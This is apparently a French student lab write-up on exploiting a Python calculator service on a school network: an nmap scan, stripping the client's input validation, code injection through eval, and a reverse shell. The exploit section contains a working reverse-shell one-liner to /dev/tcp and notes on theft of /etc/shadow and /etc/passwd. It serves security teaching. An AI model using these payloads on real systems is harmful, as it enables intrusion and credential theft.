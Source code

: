 # TP5 : Exploit, pwn, fix


![Gunna be hax](./img/gunna_be_hacker.png)

## Sommaire

- [TP5 : Exploit, pwn, fix](#tp5--exploit-pwn-fix)
  - [Sommaire](#sommaire)
  - [0. Setup](#0-setup)
  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [II. Remédiation](#ii-remédiation)

## 0. Setup

## 1. Reconnaissance


🌞 **Déterminer**

- à quelle IP ce client essaie de se co quand on le lance : 10.1.2.12

- à quel port il essaie de se co sur cette IP : 13337

Afin de pouvoir lancer le fichier client.py, il faut créer le dossier /var/log/bs_client, pour ensuite mettre le fichier client.py dedans. Il faut aussi créer un fichier bs_client.log afin de voir le retour du serveur. Lorsque nous lançons l'application client.py, nous pouvons ouvrir un wireshark et filtrer par tcp afin de voir sur quelle port et quelle addresse ip se connecte le client.


➜ **On me dit à l'oreillette que cette app est actuellement hébergée au sein de l'école.**

🌞 **Scanner le réseau**

- trouvez une ou plusieurs machines qui héberge une app sur ce port
- votre scan `nmap` doit être le plus discret possible : il ne teste que ce port là, rien d'autres

```bash
m4ul@thinkpad:~/Desktop$ sudo nmap -sS 10.33.64.0/20 -p 13337 --open
Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-30 10:50 CET
Nmap scan report for 10.33.66.165
Host is up (0.0068s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

Nmap scan report for 10.33.70.40
Host is up (0.089s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)

Nmap scan report for 10.33.76.195
Host is up (0.0077s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 82:30:BF:B6:57:2F (Unknown)

Nmap scan report for 10.33.76.217
Host is up (0.0064s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 2C:6D:C1:5E:41:6A (Unknown)

Nmap done: 4096 IP addresses (869 hosts up) scanned in 246.11 seconds
```


🦈 **tp5_nmap.pcapng**


🌞 **Connectez-vous au serveur**


[Fichier client modifié](/client.py)

## 2. Exploit

➜ **On est face à une application qui, d'une façon ou d'une autre, prend ce que le user saisit, et l'évalue.**

🌞 **Injecter du code serveur**

En lisant le code client non modifié, nous pouvons voir que c'est bien ce code qui verifie ce que nous voulions envoyer au serveur. En mettant donc les matchs de regex en commentaire, nous pouvons maintenant envoyer ce qu'on veut au serveur.

```python
#   match= re.match(pattern, userMessage)
  #  if match:
   #     num1, operator, num2 = match.groups()
    #    num1, num2 = int(num1), int(num2)

        # Vérifiez si les nombres sont dans la plage [-100000, 100000]
    if True:
        s.sendall(userMessage.encode("utf-8"))
        logger.info("Message envoyé au serveur %s : %s", host, userMessage)
        #else:
         #   raise ValueError("l'opération autorisée n'accepte que des nombres entiers compris entre -100000 et +100000")
  #  else:
   #     raise ValueError("l'opération autorisée n'accepte que les signes suivants (-,+,*) et des nombres entiers compris entre -100000 et +100000")
```

Nous pouvons maintenant essayer d'envoyer une commande au serveur pour qu'il puisse nous envoyer un ping:

```
$ sudo python3 client.py
Veuillez saisir une opération arithmétique : __import__('os').system('ping -c 1 10.33.70.30')
```

## 3. Reverse shell

➜ **Injecter du code c'est bien mais...**



🌞 **Obtenez un reverse shell sur le serveur**

```
$ sudo python3 client.py
Veuillez saisir une opération arithmétique : __import__('os').system('sh -i >& /dev/tcp/10.33.67.140/6969 0>&1')
```

🌞 **Pwn**

- voler les fichiers [`/etc/shadow`](shadow) et [`/etc/passwd`](passwd)

Afin de retrouver le code serveur, j'ai listé tous les processus en cours:

```
sh-5.1# ps -ef
ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root        2312       1  0 11:46 ?        00:00:00 /usr/bin/python3.9 /opt/serv.py
root        2364    2312  0 11:55 ?        00:00:00 sh -c sh -i >& /dev/tcp/10.33.67.140/6969 0>&1
```

- voler le [code](serv.py) serveur de l'application 


- déterminer si d'autres services sont disponibles sur la machine:

On voit qu'il n'y a que le service sshd qui est disponible en plus du serveur python
```
sh-5.1# ss -ltunp
ss -ltunp
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                             
tcp   LISTEN 0      1          10.0.3.15:13337      0.0.0.0:*    users:(("python3.9",pid=2312,fd=4))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=699,fd=3))      
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=699,fd=4)) 
```



## II. Remédiation

🌞 **Proposer une remédiation dév**

- le code serveur ne doit pas exécuter n'importe quoi
- il faut préserver la fonctionnalité de l'outil

🌞 **Proposer une remédiation système**

- l'environnement dans lequel tourne le service est foireux (le user utilisé ?)
- la machine devrait bloquer les connexions sortantes (pas de reverse shell possible)
